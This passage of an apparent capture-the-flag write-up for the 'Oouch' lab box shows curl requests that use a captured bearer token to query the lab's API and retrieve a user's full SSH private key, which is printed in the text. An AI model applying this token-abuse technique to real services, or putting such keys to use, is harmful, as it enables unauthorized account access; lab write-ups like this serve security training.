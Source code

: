 HTTP/1.1 403 Forbidden
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 0
Vary: Authorization
I can add the Authorization: Bearer [token] header, and it works:

root@kali# curl -s authorization.oouch.htb:8000/api/get_user -H "Authorization: Bearer gm05wp2kDWhSmS3QrZmdEqgvFGoEKD" | jq .
{
  "username": "qtc",
  "firstname": "",
  "lastname": "",
  "email": "qtc@nonexistend.nonono"
}
get_ssh
Obviously this isn’t terribly useful information. I spent a while fuzzing for additional parameters that might return the other information entered into the signup form, the ssh key. Eventually, I tried hitting a different endpoint, /api/get_ssh:

root@kali# curl -s authorization.oouch.htb:8000/api/get_ssh -H "Authorization: Bearer gm05wp2kDWhSmS3QrZmdEqgvFGoEKD" | jq .
{
  "ssh_server": "consumer.oouch.htb",
  "ssh_user": "qtc",
  "ssh_key": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\n-----END OPENSSH PRIVATE KEY-----"
}
That’s an ssh key!
